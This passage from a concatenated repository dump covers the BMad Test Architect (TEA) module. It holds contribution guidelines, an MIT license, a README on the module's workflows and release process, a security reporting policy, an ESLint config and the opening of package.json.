**Partnership Over Automation** - AI agents act as expert coaches, mentors, and collaborators who amplify human capability rather than replace it.

**Bidirectional Guidance** - Agents guide users through structured workflows while users push agents with advanced prompting. Both sides actively work to extract better information from each other.

**Systems of Workflows** - BMad Core builds comprehensive systems of guided workflows with specialized agent teams for any domain.

**Tool-Agnostic Foundation** - BMad Core remains tool-agnostic, providing stable, extensible groundwork that adapts to any domain.

## What Makes a Good Contribution?

Every contribution should strengthen human-AI collaboration. Ask yourself: **"Does this make humans and AI better together?"**

**✅ Contributions that align:**

- Enhance universal collaboration patterns
- Improve agent personas and workflows
- Strengthen planning and context continuity
- Increase cross-domain accessibility
- Add domain-specific modules leveraging BMad Core

**❌ What detracts from our mission:**

- Purely automated solutions that sideline humans
- Tools that don't improve the partnership
- Complexity that creates barriers to adoption
- Features that fragment BMad Core's foundation

## Before You Contribute

### Reporting Bugs

1. **Check existing issues** first to avoid duplicates
2. **Consider discussing in Discord** (#report-bugs-and-issues channel) for quick help
3. **Use the bug report template** when creating a new issue - it guides you through providing:
   - Clear bug description
   - Steps to reproduce
   - Expected vs actual behavior
   - Model/IDE/BMad version details
   - Screenshots or links if applicable
4. **Indicate if you're working on a fix** to avoid duplicate efforts

### Suggesting Features or New Modules

1. **Discuss first in Discord** (#suggestions-feedback channel) - the feature request template asks if you've done this
2. **Check existing issues and discussions** to avoid duplicates
3. **Use the feature request template** when creating an issue
4. **Be specific** about why this feature would benefit the BMad community and strengthen human-AI collaboration

### Before Starting Work

⚠️ **Required before submitting PRs:**

1. **For bugs**: Check if an issue exists (create one using the bug template if not)
2. **For features**: Discuss in Discord (#suggestions-feedback) AND create a feature request issue
3. **For large changes**: Always open an issue first to discuss alignment

Please propose small, granular changes! For large or significant changes, discuss in Discord and open an issue first. This prevents wasted effort on PRs that may not align with planned changes.

## Pull Request Guidelines

### Which Branch?

**Submit PR's to `main` branch** (critical only):

- 🚨 Critical bug fixes that break basic functionality
- 🔒 Security patches
- 📚 Fixing dangerously incorrect documentation
- 🐛 Bugs preventing installation or basic usage

### PR Size Guidelines

- **Ideal PR size**: 200-400 lines of code changes
- **Maximum PR size**: 800 lines (excluding generated files)
- **One feature/fix per PR**: Each PR should address a single issue or add one feature
- **If your change is larger**: Break it into multiple smaller PRs that can be reviewed independently
- **Related changes**: Even related changes should be separate PRs if they deliver independent value

### Breaking Down Large PRs

If your change exceeds 800 lines, use this checklist to split it:

- [ ] Can I separate the refactoring from the feature implementation?
- [ ] Can I introduce the new API/interface in one PR and implementation in another?
- [ ] Can I split by file or module?
- [ ] Can I create a base PR with shared utilities first?
- [ ] Can I separate test additions from implementation?
- [ ] Even if changes are related, can they deliver value independently?
- [ ] Can these changes be merged in any order without breaking things?

Example breakdown:

1. PR #1: Add utility functions and types (100 lines)
2. PR #2: Refactor existing code to use utilities (200 lines)
3. PR #3: Implement new feature using refactored code (300 lines)
4. PR #4: Add comprehensive tests (200 lines)

**Note**: PRs #1 and #4 could be submitted simultaneously since they deliver independent value.

### Pull Request Process

#### New to Pull Requests?

If you're new to GitHub or pull requests, here's a quick guide:

1. **Fork the repository** - Click the "Fork" button on GitHub to create your own copy
2. **Clone your fork** - `git clone https://github.com/YOUR-USERNAME/bmad-module-creative-intelligence-suite.git`
3. **Create a new branch** - Never work on `main` directly!
   ```bash
   git checkout -b fix/description
   # or
   git checkout -b feature/description
   ```
4. **Make your changes** - Edit files, keeping changes small and focused
5. **Commit your changes** - Use clear, descriptive commit messages
   ```bash
   git add .
   git commit -m "fix: correct typo in README"
   ```
6. **Push to your fork** - `git push origin fix/description`
7. **Create the Pull Request** - Go to your fork on GitHub and click "Compare & pull request"

### PR Description Template

Keep your PR description concise and focused. Use this template:

```markdown
## What

[1-2 sentences describing WHAT changed]

## Why

[1-2 sentences explaining WHY this change is needed]
Fixes #[issue number] (if applicable)

## How

## [2-3 bullets listing HOW you implemented it]

-
-

## Testing

[1-2 sentences on how you tested this]
```

**Maximum PR description length: 200 words** (excluding code examples if needed)

### Good vs Bad PR Descriptions

❌ **Bad Example:**

> This revolutionary PR introduces a paradigm-shifting enhancement to the system's architecture by implementing a state-of-the-art solution that leverages cutting-edge methodologies to optimize performance metrics...

✅ **Good Example:**

> **What:** Added validation for agent dependency resolution
> **Why:** Build was failing silently when agents had circular dependencies
> **How:**
>
> - Added cycle detection in dependency-resolver.js
> - Throws clear error with dependency chain
>   **Testing:** Tested with circular deps between 3 agents

### Commit Message Convention

Use conventional commits format:

- `feat:` New feature
- `fix:` Bug fix
- `docs:` Documentation only
- `refactor:` Code change that neither fixes a bug nor adds a feature
- `test:` Adding missing tests
- `chore:` Changes to build process or auxiliary tools

Keep commit messages under 72 characters.

### Atomic Commits

Each commit should represent one logical change:

- **Do:** One bug fix per commit
- **Do:** One feature addition per commit
- **Don't:** Mix refactoring with bug fixes
- **Don't:** Combine unrelated changes

## What Makes a Good Pull Request?

✅ **Good PRs:**

- Change one thing at a time
- Have clear, descriptive titles
- Explain what and why in the description
- Include only the files that need to change
- Reference related issue numbers

❌ **Avoid:**

- Changing formatting of entire files
- Multiple unrelated changes in one PR
- Copying your entire project/repo into the PR
- Changes without explanation
- Working directly on `main` branch

## Common Mistakes to Avoid

1. **Don't reformat entire files** - only change what's necessary
2. **Don't include unrelated changes** - stick to one fix/feature per PR
3. **Don't paste code in issues** - create a proper PR instead
4. **Don't submit your whole project** - contribute specific improvements

## Prompt & Agent Guidelines

- Keep dev agents lean - they need context for coding, not documentation
- Web/planning agents can be larger with more complex tasks
- Everything is natural language (markdown) - no code in core framework
- Use bmad modules for domain-specific features
- Validate YAML schemas with `npm run validate:schemas` before committing

## Code of Conduct

By participating in this project, you agree to abide by our Code of Conduct. We foster a collaborative, respectful environment focused on building better human-AI partnerships.

## Need Help?

- 💬 Join our [Discord Community](https://discord.gg/gk8jAdXWmj):
  - **#bmad-development** - Technical questions and discussions
  - **#suggestions-feedback** - Feature ideas and suggestions
  - **#report-bugs-and-issues** - Get help with bugs before filing issues
- 🐛 Report bugs using the [bug report template](https://github.com/bmad-code-org/bmad-module-creative-intelligence-suite/issues/new?template=bug_report.md)
- 💡 Suggest features using the [feature request template](https://github.com/bmad-code-org/bmad-module-creative-intelligence-suite/issues/new?template=feature_request.md)
- 📖 Browse the [GitHub Discussions](https://github.com/bmad-code-org/bmad-module-creative-intelligence-suite/discussions)

---

**Remember**: We're here to help! Don't be afraid to ask questions. Every expert was once a beginner. Together, we're building a future where humans and AI work better together.

## License

By contributing to this project, you agree that your contributions will be licensed under the same license as the project.
```

## File: `LICENSE`
```
MIT License

Copyright (c) 2025 BMad Code, LLC

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

TRADEMARK NOTICE:
BMad™ , BMAD-CORE™ and BMAD-METHOD™ are trademarks of BMad Code, LLC. The use of these 
trademarks in this software does not grant any rights to use the trademarks 
for any other purpose.
```

## File: `README.md`
```markdown
# Test Architect (TEA)

TEA (Test Engineering Architect) is a standalone BMAD module that delivers risk-based test strategy, test automation guidance, and release gate decisions. It provides a single expert agent (Murat, Master Test Architect and Quality Advisor) and nine workflows spanning Teach Me Testing (TEA Academy), framework setup, test design, ATDD, automation, traceability, NFR assessment, CI guidance, and test review.

Docs: <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/>

## Why TEA

- Risk-based testing with measurable quality gates
- Consistent, knowledge-base driven outputs
- Clear prioritization (P0-P3) and traceability
- Optional Playwright Utils, CLI, and MCP browser automation

## How BMad Works

BMad works because it turns big, fuzzy work into **repeatable workflows**. Each workflow is broken into small steps with clear instructions, so the AI follows the same path every time. It also uses a **shared knowledge base** (standards and patterns) so outputs are consistent, not random. In short: **structured steps + shared standards = reliable results**.

## How TEA Fits In

TEA plugs into BMad the same way a specialist plugs into a team. It uses the same step‑by‑step workflow engine and shared standards, but focuses exclusively on testing and quality gates. That means you get a **risk‑based test plan**, **automation guidance**, and **go/no‑go decisions** that align with the rest of the BMad process.

## Architecture & Flow

BMad is a small **agent + workflow engine**. There is no external orchestrator — everything runs inside the LLM context window through structured instructions.

### Building Blocks

Each workflow directory contains these files, and each has a specific job:

| File              | What it does                                                                                                        | When it loads                                                             |
| ----------------- | ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------- |
| `SKILL.md`        | Expert persona — identity, principles, critical actions, capabilities table                                         | First — always in context                                                 |
| `workflow.yaml`   | Machine-readable metadata — config variables, required tools, tags                                                  | Second — resolves `{project-root}`, `{config_source}`, `{test_artifacts}` |
| `workflow.md`     | Human-readable entry point — goals, mode menu (Create/Edit/Validate), routes to first step                          | Second — presents mode choice                                             |
| `instructions.md` | Workflow-specific rules and context (optional, supplements workflow.md)                                             | On demand                                                                 |
| `steps-c/*.md`    | **Create** steps — primary execution, 5-9 sequential files                                                          | One at a time (just-in-time)                                              |
| `steps-e/*.md`    | **Edit** steps — always 2 files: assess target, apply edit                                                          | One at a time                                                             |
| `steps-v/*.md`    | **Validate** steps — always 1 file: evaluate against checklist                                                      | On demand                                                                 |
| `checklist.md`    | Validation criteria — what "done" looks like for this workflow                                                      | Read by steps-v                                                           |
| `*-template.md`   | Output skeleton with `{PLACEHOLDER}` vars — steps fill these in to produce the final artifact                       | Read by steps-c when generating output                                    |
| `tea-index.csv`   | Knowledge fragment index — id, name, tags, tier (core/extended/specialized), file path                              | Read by step-01 to decide which fragments to load                         |
| `knowledge/*.md`  | 40 reusable fragments — standards, patterns, API references (e.g., `data-factories.md`, `pactjs-utils-overview.md`) | Selectively read into context based on tier + config flags                |



### How It Works at Runtime

1. **Trigger** — Direct commands are `/bmad:tea:automate` (Claude/Cursor/Windsurf) and `$bmad-tea-testarch-automate` (Codex). Load the conversational TEA menu with `$bmad-tea` in Codex. `TA` is an agent-menu trigger available only after TEA is activated; the capabilities table in `SKILL.md` maps `TA` to the `bmad-testarch-automate` skill.
2. **Agent loads** — `SKILL.md` injects the persona (identity, principles, critical actions) into the context window.
3. **Workflow loads** — `workflow.yaml` resolves config variables and `workflow.md` presents the mode menu (Create / Edit / Validate), then routes to the first step file.
4. **Step-by-step execution** — Only the current step file is in context (just-in-time loading). Each step explicitly names the next one (`nextStepFile: './step-02-...'`). The LLM reads, executes, saves output, then loads the next step. No future steps are ever preloaded.
5. **Knowledge injection** — Step-01 reads `tea-index.csv` and selectively loads fragments by **tier** (core = always, extended = on-demand, specialized = only when relevant) and **config flags** (e.g., `tea_use_pactjs_utils`). This is deliberate context engineering: a backend project loads ~1,800 lines of fragments; a fullstack project loads ~4,500 lines. Conditional loading cuts context usage by 40-50%.
6. **Templates** — When a step produces output (e.g., a traceability matrix or test review report), it reads the `*-template.md` file and fills in the `{PLACEHOLDER}` values with computed results. The template provides consistent structure; the step provides the content.
7. **Subagent isolation** — Heavy workflows (e.g., `automate`) spawn parallel subagents that each run in an isolated context. Subagents write structured JSON to temp files. An aggregation step reads the JSON outputs — only the results enter the main context, not the full subagent history.
8. **Progress tracking** — Each step appends to an output file with YAML frontmatter (`stepsCompleted`, `lastStep`, `lastSaved`). Resume mode reads this frontmatter and routes to the next incomplete step.
9. **Validation** — The `steps-v/` mode reads `checklist.md` and evaluates the workflow's output against its criteria, producing a pass/fail validation report.

### Workflows vs Skills

BMad workflows and Claude Code Skills solve different problems at different scales:

| Capability        | Claude Code Skills          | BMad Workflows                                                               |
| ----------------- | --------------------------- | ---------------------------------------------------------------------------- |
| **Execution**     | Single prompt, one shot     | 5-9 sequential steps with explicit handoffs                                  |
| **State**         | Stateless                   | YAML frontmatter tracking (`stepsCompleted`, `lastStep`) with resume         |
| **Knowledge**     | Whatever fits in one prompt | Tiered index (40 fragments), conditional loading by config + stack detection |
| **Context mgmt**  | Everything in one shot      | Just-in-time step loading, subagent isolation (separate contexts)            |
| **Output**        | Freeform                    | Templates with `{PLACEHOLDER}` vars filled by specific steps                 |
| **Validation**    | None                        | Dedicated mode (`steps-v/`) evaluating against checklists                    |
| **Configuration** | None                        | `module.yaml` with prompted config flags driving conditional behavior        |
| **Modes**         | None                        | Create / Edit / Validate — three separate step chains per workflow           |

The key insight is that there is **no external runtime engine** — the LLM _is_ the engine. BMad workflows are structured markdown that the LLM follows as instructions: "read this file, execute it completely, save your output, load the next file." Skills are a single tool in a toolbox; BMad workflows are a workshop with a process manual.

**How workflows become commands.** When you run `npx bmad-method install`, the installer generates tool-specific artifacts for your runtime (for example, Claude Code uses `.claude/commands/`, while Codex uses `.agents/skills/`). In Claude Code, `bmad-tea-testarch-automate.md` tells the LLM: "load the core workflow engine (`workflow.xml`), pass it this workflow config (`automate/workflow.yaml`), follow the instructions exactly." That launcher artifact is the bridge — it triggers the workflow entry point; the multi-step engine takes over from there.

```text
.claude/commands/                         # Generated by installer
├── bmad-tea.md                           # /tea → loads agent persona + menu
├── bmad-tea-testarch-automate.md         # /automate → loads workflow.xml + workflow.yaml
├── bmad-tea-testarch-test-design.md      # /test-design → ...
├── bmad-bmm-create-prd.md               # /create-prd → BMM workflow
└── ... (61 commands total across all installed modules)
```

The BMAD-METHOD source repo also has standalone `.claude/skills/` (e.g., `bmad-os-release-module`, `bmad-os-gh-triage`) for its own maintenance workflows. External tools can register skills too (e.g., `playwright-cli install --skills`). The installer supports 10+ platforms: Claude Code, Cursor, GitHub Copilot, Codex, Gemini, Windsurf, Cline, and more.

## Install

```bash
npx bmad-method install
# Select: Test Architect (TEA)
```

**Note:** TEA is automatically added to party mode after installation. Use `/party` to collaborate with TEA alongside other BMad agents.

### Tool-specific invocation

| Tool                            | Invocation style                | Example                                      |
| ------------------------------- | ------------------------------- | -------------------------------------------- |
| Claude Code / Cursor / Windsurf | Slash command                   | `/bmad:tea:automate`                         |
| Codex                           | `$` skill from `.agents/skills` | `$bmad-tea` or `$bmad-tea-testarch-automate` |

## Quickstart

1. Install TEA (above)
2. Load the TEA menu with `$bmad-tea` if you want a conversational entrypoint.
3. Run one of the core workflows:
   - `TD` / `/bmad:tea:test-design` / `$bmad-tea-testarch-test-design` — test design and risk assessment
   - `AT` / `/bmad:tea:atdd` / `$bmad-tea-testarch-atdd` — failing acceptance tests first (TDD red phase)
   - `TA` / `/bmad:tea:automate` / `$bmad-tea-testarch-automate` — expand automation coverage
4. Or use in party mode: `/party` to include TEA with other agents

## Engagement Models

- **No TEA**: Use your existing testing approach
- **TEA Solo**: Standalone use on non-BMad projects
- **TEA Lite**: Start with `automate` only for fast onboarding
- **Integrated (BMad Method / Enterprise)**: Use TEA in Phases 3–4 and release gates

## Workflows

| Trigger | Slash Command                | Codex Skill                      | Purpose                                                   |
| ------- | ---------------------------- | -------------------------------- | --------------------------------------------------------- |
| TMT     | `/bmad:tea:teach-me-testing` | `$bmad-tea-teach-me-testing`     | Teach Me Testing (TEA Academy)                            |
| TF      | `/bmad:tea:framework`        | `$bmad-tea-testarch-framework`   | Scaffold test framework (frontend, backend, or fullstack) |
| CI      | `/bmad:tea:ci`               | `$bmad-tea-testarch-ci`          | Set up CI/CD quality pipeline (multi-platform)            |
| TD      | `/bmad:tea:test-design`      | `$bmad-tea-testarch-test-design` | System-level or epic-level test design                    |
| AT      | `/bmad:tea:atdd`             | `$bmad-tea-testarch-atdd`        | Generate failing acceptance tests + checklist             |
| TA      | `/bmad:tea:automate`         | `$bmad-tea-testarch-automate`    | Expand test automation coverage                           |
| RV      | `/bmad:tea:test-review`      | `$bmad-tea-testarch-test-review` | Review test quality and score                             |
| TR      | `/bmad:tea:trace`            | `$bmad-tea-testarch-trace`       | Trace requirements to tests + gate decision               |
| NR      | `/bmad:tea:nfr-assess`       | `$bmad-tea-testarch-nfr`         | Assess non-functional requirements                        |

## Configuration

TEA variables are defined in `src/module.yaml` and prompted during install:

- `test_artifacts` — base output folder for test artifacts
- `tea_use_playwright_utils` — enable Playwright Utils integration (boolean)
- `tea_use_pactjs_utils` — enable Pact.js Utils integration for contract testing when your project explicitly uses Pact (boolean)
- `tea_pact_mcp` — SmartBear MCP for PactFlow/Broker interaction when broker integration is needed: mcp, none (string)
- `tea_browser_automation` — browser automation mode: auto, cli, mcp, none (string)
- `test_framework` — detected or configured test framework (Playwright, Cypress, Jest, Vitest, pytest, JUnit, Go test, dotnet test, RSpec)
- `test_stack_type` — detected or configured stack type (frontend, backend, fullstack)
- `ci_platform` — CI platform (auto, github-actions, gitlab-ci, jenkins, azure-devops, harness, circle-ci)
- `risk_threshold` — risk cutoff for mandatory testing (future)
- `test_design_output`, `test_review_output`, `trace_output` — subfolders under `test_artifacts`

## Knowledge Base

TEA relies on a curated testing knowledge base:

- Index: `src/agents/bmad-tea/resources/tea-index.csv`
- Fragments: `src/agents/bmad-tea/resources/knowledge/`

Workflows load only the fragments required for the current task to stay focused and compliant.

## Module Structure

```
src/
├── module.yaml
├── agents/
│   └── bmad-tea/              # Native skill: SKILL.md + bmad-skill-manifest.yaml
├── workflows/
│   └── testarch/
│       ├── bmad-teach-me-testing/
│       ├── bmad-testarch-atdd/
│       ├── bmad-testarch-automate/
│       ├── bmad-testarch-ci/
│       ├── bmad-testarch-framework/
│       ├── bmad-testarch-nfr/
│       ├── bmad-testarch-test-design/
│       ├── bmad-testarch-test-review/
│       └── bmad-testarch-trace/
└── agents/
    └── bmad-tea/
        └── resources/
            ├── tea-index.csv
            └── knowledge/
```

## Extending TEA

Custom workflows are still compatible with TEA, but they are no longer implicitly absorbed into TEA core. The supported path is:

1. Package the workflow as custom content or a custom module.
2. Attach it to `bmad-tea` using the agent customization flow.
3. Reinstall/update BMAD so the new menu item and workflow are registered.

See [Extend TEA with Custom Workflows](brain/knowledge/docs_legacy/how-to/customization/extend-tea-with-custom-workflows.md) and the BMAD customization guide at [`BMAD-METHOD/brain/knowledge/docs_legacy/how-to/customize-bmad.md`](https://github.com/bmad-code-org/BMAD-METHOD/blob/main/brain/knowledge/docs_legacy/how-to/customize-bmad.md).

## Contributing

See `CONTRIBUTING.md` for guidelines.

---

<details>
<summary><strong>📦 Release Guide (for Maintainers)</strong></summary>

## Publishing TEA to NPM

TEA uses an automated release workflow that handles versioning, tagging, NPM publishing, and GitHub releases.

### Prerequisites (One-Time Setup)

1. **NPM Token Configuration:**
   - Generate NPM automation token: [npmjs.com/settings/tokens](https://www.npmjs.com/settings/your-username/tokens)
   - Add to GitHub Secrets: `Settings` → `Secrets and variables` → `Actions` → `New repository secret`
   - Name: `NPM_TOKEN`
   - Value: [your token]

2. **Verify Package Configuration:**
   ```bash
   # Check package.json settings
   cat package.json | grep -A 3 "publishConfig"
   # Should show: "access": "public"
   ```

### Release Process

#### Option 1: Using npm Scripts (Recommended)

From your local terminal after merging to `main`:

```bash
# Beta release (first release or testing)
npm run release:beta

# Alpha release (early testing)
npm run release:alpha

# Patch release (bug fixes)
npm run release:patch

# Minor release (new features, backwards compatible)
npm run release:minor

# Major release (breaking changes)
npm run release:major
```

#### Option 2: Manual Workflow Trigger

1. Go to **Actions** tab in GitHub
2. Click **"Manual Release"** workflow
3. Click **"Run workflow"**
4. Select version bump type (alpha, beta, patch, minor, major)
5. Click **"Run workflow"**

### What Happens Automatically

The workflow performs these steps:

1. ✅ **Validation**: Runs all tests, linting, and format checks
2. ✅ **Version Bump**: Updates `package.json` version
   - `beta`: 0.1.0 → 0.1.1-beta.0
   - `alpha`: 0.1.0 → 0.1.1-alpha.0
   - `patch`: 0.1.0 → 0.1.1
   - `minor`: 0.1.0 → 0.2.0
   - `major`: 0.1.0 → 1.0.0
3. ✅ **Commit**: Creates version bump commit
4. ✅ **Tag**: Creates git tag (e.g., v0.1.1-beta.0)
5. ✅ **Push**: Pushes tag to GitHub
6. ✅ **Publish**: Publishes to NPM registry
   - Alpha → `npm install --tag alpha`
   - Beta → `npm install` (tagged as `latest`)
   - Stable → `npm install` (tagged as `latest`)
7. ✅ **GitHub Release**: Creates release with auto-generated notes
8. ✅ **Summary**: Displays installation instructions

### Version Bump Strategy

**For TEA Module:**

- **Beta (0.1.x-beta.x)**: Pre-1.0 testing, used for initial releases
- **Alpha (0.1.x-alpha.x)**: Early development, experimental features
- **Patch (0.1.x)**: Bug fixes, no new features
- **Minor (0.x.0)**: New features, backwards compatible
- **Major (x.0.0)**: Breaking changes (e.g., 1.0.0 release)

**Recommended Release Path:**

1. `0.1.0` → `0.1.1-beta.0` (first beta)
2. Test beta with early adopters
3. `0.1.1-beta.0` → `0.1.1-beta.1` (fixes)
4. When stable: `0.1.1-beta.1` → `1.0.0` (official release)

### Verify Publication

**Check NPM:**

```bash
npm view bmad-method-test-architecture-enterprise
```

**Install TEA:**

```bash
npx bmad-method install
# Select "Test Architect (TEA)"
```

**Test Workflows:**

```bash
# In your project
tea              # Load agent
test-design      # Test workflow
```

### Rollback a Release (if needed)

If you need to unpublish a version:

```bash
# Unpublish specific version (within 72 hours)
npm unpublish bmad-method-test-architecture-enterprise@0.1.1-beta.0

# Deprecate version (preferred for older releases)
npm deprecate bmad-method-test-architecture-enterprise@0.1.1-beta.0 "Use version X.Y.Z instead"
```

### Troubleshooting

**"NPM_TOKEN not found":**

- Verify secret is set: GitHub repo → Settings → Secrets and variables → Actions
- Secret name must be exactly: `NPM_TOKEN`

**"Package already exists":**

- Check if package name is already taken on NPM
- Update `name` in `package.json` if needed

**"Tests failed":**

- Fix failing tests before release
- Run `npm test` locally to verify

**"Git push failed (protected branch)":**

- This is expected for protected `main` branch
- The tag and version bump are still created
- You may need to manually merge the version bump commit

### Release Checklist

Before releasing:

- [ ] All tests passing: `npm test`
- [ ] Documentation up to date
- [ ] CHANGELOG.md updated
- [ ] No uncommitted changes
- [ ] On `main` branch
- [ ] NPM token configured in GitHub Secrets
- [ ] Package name available on NPM

After releasing:

- [ ] Verify NPM publication: `npm view bmad-method-test-architecture-enterprise`
- [ ] Test installation: `npx bmad-method install`
- [ ] Verify workflows work
- [ ] Check GitHub Release created
- [ ] Monitor for issues

</details>

---

## License

See `LICENSE`.
```

## File: `SECURITY.md`
```markdown
# Security Policy

## Supported Versions

We release security patches for the following versions:

| Version  | Supported          |
| -------- | ------------------ |
| Latest   | :white_check_mark: |
| < Latest | :x:                |

We recommend always using the latest version of BMad Method to ensure you have the most recent security updates.

## Reporting a Vulnerability

We take security vulnerabilities seriously. If you discover a security issue, please report it responsibly.

### How to Report

**Do NOT report security vulnerabilities through public GitHub issues.**

Instead, please report them via one of these methods:

1. **GitHub Security Advisories** (Preferred): Use [GitHub's private vulnerability reporting](https://github.com/bmad-code-org/BMAD-METHOD/security/advisories/new) to submit a confidential report.

2. **Discord**: Contact a maintainer directly via DM on our [Discord server](https://discord.gg/gk8jAdXWmj).

### What to Include

Please include as much of the following information as possible:

- Type of vulnerability (e.g., prompt injection, path traversal, etc.)
- Full paths of source file(s) related to the vulnerability
- Step-by-step instructions to reproduce the issue
- Proof-of-concept or exploit code (if available)
- Impact assessment of the vulnerability

### Response Timeline

- **Initial Response**: Within 48 hours of receiving your report
- **Status Update**: Within 7 days with our assessment
- **Resolution Target**: Critical issues within 30 days; other issues within 90 days

### What to Expect

1. We will acknowledge receipt of your report
2. We will investigate and validate the vulnerability
3. We will work on a fix and coordinate disclosure timing with you
4. We will credit you in the security advisory (unless you prefer to remain anonymous)

## Security Scope

### In Scope

- Vulnerabilities in BMad Method core framework code
- Security issues in agent definitions or workflows that could lead to unintended behavior
- Path traversal or file system access issues
- Prompt injection vulnerabilities that bypass intended agent behavior
- Supply chain vulnerabilities in dependencies

### Out of Scope

- Security issues in user-created custom agents or modules
- Vulnerabilities in third-party AI providers (Claude, GPT, etc.)
- Issues that require physical access to a user's machine
- Social engineering attacks
- Denial of service attacks that don't exploit a specific vulnerability

## Security Best Practices for Users

When using BMad Method:

1. **Review Agent Outputs**: Always review AI-generated code before executing it
2. **Limit File Access**: Configure your AI IDE to limit file system access where possible
3. **Keep Updated**: Regularly update to the latest version
4. **Validate Dependencies**: Review any dependencies added by generated code
5. **Environment Isolation**: Consider running AI-assisted development in isolated environments

## Acknowledgments

We appreciate the security research community's efforts in helping keep BMad Method secure. Contributors who report valid security issues will be acknowledged in our security advisories.

---

Thank you for helping keep BMad Method and our community safe.
```

## File: `eslint.config.mjs`
```
import js from '@eslint/js';
import eslintConfigPrettier from 'eslint-config-prettier/flat';
import nodePlugin from 'eslint-plugin-n';
import unicorn from 'eslint-plugin-unicorn';
import yml from 'eslint-plugin-yml';

export default [
  // Global ignores for files/folders that should not be linted
  {
    ignores: [
      'dist/**',
      'coverage/**',
      '**/*.min.js',
      'test/template-test-generator/**',
      'test/template-test-generator/**/*.js',
      'test/template-test-generator/**/*.md',
      'test/fixtures/**',
      'test/fixtures/**/*.yaml',
      '_bmad/**',
      '_bmad*/**',
      // Build output
      'build/**',
      // Website uses ESM/Astro - separate linting ecosystem
      'website/**',
      // Gitignored patterns
      'z*/**', // z-samples, z1, z2, etc.
      '.claude/**',
      '.codex/**',
      '.github/chatmodes/**',
      '.agent/**',
      '.agentvibes/**',
      '.kiro/**',
      '.roo/**',
      'test-project-install/**',
      'sample-project/**',
      'tools/template-test-generator/test-scenarios/**',
      'src/modules/*/sub-modules/**',
      '.bundler-temp/**',
    ],
  },

  // Base JavaScript recommended rules
  js.configs.recommended,

  // Node.js rules
  ...nodePlugin.configs['flat/mixed-esm-and-cjs'],

  // Unicorn rules (modern best practices)
  unicorn.configs.recommended,

  // YAML linting
  ...yml.configs['flat/recommended'],

  // Place Prettier last to disable conflicting stylistic rules
  eslintConfigPrettier,

  // Project-specific tweaks
  {
    rules: {
      // Allow console for CLI tools in this repo
      'no-console': 'off',
      // Enforce .yaml file extension for consistency
      'yml/file-extension': [
        'error',
        {
          extension: 'yaml',
          caseSensitive: true,
        },
      ],
      // Prefer double quotes in YAML wherever quoting is used, but allow the other to avoid escapes
      'yml/quotes': [
        'error',
        {
          prefer: 'double',
          avoidEscape: true,
        },
      ],
      // Relax some Unicorn rules that are too opinionated for this codebase
      'unicorn/prevent-abbreviations': 'off',
      'unicorn/no-null': 'off',
    },
  },

  // CLI scripts under tools/** and test/**
  {
    files: ['tools/**/*.js', 'tools/**/*.mjs', 'test/**/*.js'],
    rules: {
      // Allow CommonJS patterns for Node CLI scripts
      'unicorn/prefer-module': 'off',
      'unicorn/import-style': 'off',
      'unicorn/no-process-exit': 'off',
      'n/no-process-exit': 'off',
      'unicorn/no-await-expression-member': 'off',
      'unicorn/prefer-top-level-await': 'off',
      // Avoid failing CI on incidental unused vars in internal scripts
      'no-unused-vars': 'off',
      // Reduce style-only churn in internal tools
      'unicorn/prefer-ternary': 'off',
      'unicorn/filename-case': 'off',
      'unicorn/no-array-reduce': 'off',
      'unicorn/no-array-callback-reference': 'off',
      'unicorn/consistent-function-scoping': 'off',
      'n/no-extraneous-require': 'off',
      'n/no-extraneous-import': 'off',
      'n/no-unpublished-require': 'off',
      'n/no-unpublished-import': 'off',
      // Some scripts intentionally use globals provided at runtime
      'no-undef': 'off',
      // Additional relaxed rules for legacy/internal scripts
      'no-useless-catch': 'off',
      'unicorn/prefer-number-properties': 'off',
      'no-unreachable': 'off',
      'unicorn/text-encoding-identifier-case': 'off',
    },
  },

  // ESLint config file should not be checked for publish-related Node rules
  {
    files: ['eslint.config.mjs'],
    rules: {
      'n/no-unpublished-import': 'off',
    },
  },

  // GitHub workflow files in this repo may use empty mapping values
  {
    files: ['.github/workflows/**/*.yaml'],
    rules: {
      'yml/no-empty-mapping-value': 'off',
    },
  },

  // Other GitHub YAML files may intentionally use empty values and reserved filenames
  {
    files: ['.github/**/*.yaml'],
    rules: {
      'yml/no-empty-mapping-value': 'off',
      'unicorn/filename-case': 'off',
    },
  },
];
```

## File: `package.json`
```json
{
  "$schema": "https://json.schemastore.org/package.json",
  "name": "bmad-method-test-architecture-enterprise",
  "version": "1.7.3",
  "private": true,
  "description": "Master Test Architect for quality strategy, test automation, and release gates",
  "keywords": [
    "bmad",
    "test-architect",
    "testing",
    "quality",
    "automation",
    "playwright",
    "test-engineering"
  ],
  "repository": {
    "type": "git",
    "url": "git+https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise.git"
  },
  "license": "MIT",
  "author": "Murat K Ozcan (TEA Creator) & Brian (BMad) Madison",
  "main": "",
  "bin": {},
  "scripts": {
    "docs:build": "node tools/build-docs.js",
    "docs:dev": "npm --prefix website run dev",
    "docs:fix-links": "node tools/fix-doc-links.js --write",
    "docs:preview": "npm --prefix website run preview",
    "docs:validate-links": "node tools/validate-doc-links.js",
    "format:check": "prettier --check .",
    "format:fix": "prettier --write .",
    "format:fix:staged": "prettier --write",
    "lint": "eslint . --max-warnings 0",
    "lint:fix": "eslint . --fix",
    "lint:md": "markdownlint-cli2 '**/*.md'",
    "prepare": "command -v husky >/dev/null 2>&1 && husky || exit 0",
    "release:alpha": "gh workflow run manual-release.yaml -f version_bump=alpha",
    "release:beta": "gh workflow run manual-release.yaml -f version_bump=beta",
